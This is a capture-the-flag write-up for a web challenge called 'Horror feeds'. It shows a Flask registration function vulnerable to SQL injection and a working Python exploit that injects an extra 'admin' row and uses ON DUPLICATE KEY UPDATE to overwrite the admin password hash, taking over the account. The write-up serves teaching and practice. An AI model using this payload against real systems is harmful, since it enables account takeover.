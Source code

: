 # [Web] Horror feeds

This web application contains a dashboard, that will display the flag if the logged in user has `admin` as username.
In order to register new users, this application takes a JSON input containing the username and password of the new user.

However the query responsible to INSERT is vulnerable to a SQLi

```python
def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
    if exists:
        return False
    hashed = generate_password_hash(password)
    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

We can exploit it by using a new username to pass the existence check, but concatenate another value for the insert in the password. The only hurdle is that the username has a `UNIQUE` constraint

```sql
CREATE TABLE horror_feeds.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
```

To bypass this constraint, we can tell MySQL how to react in case of conflict with [ON DUPLICATE KEY UPDATE](https://dev.mysql.com/doc/refman/8.0/en/insert-on-duplicate.html)

Our final payload is

```python
import requests

host = "1.2.3.4"
port = "31104"

def main():
    payload = {
        # password = bbb
        'username': 'test","$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa"),("admin","$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa") ON DUPLICATE KEY UPDATE password="$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa" -- -',
        'password': 'whatever'
        }
    response = requests.post("http://" + host + ":" + port + "/api/register", json = payload)
    print(response)
main()
```

We can then login with the user `admin` and the password `bbb`
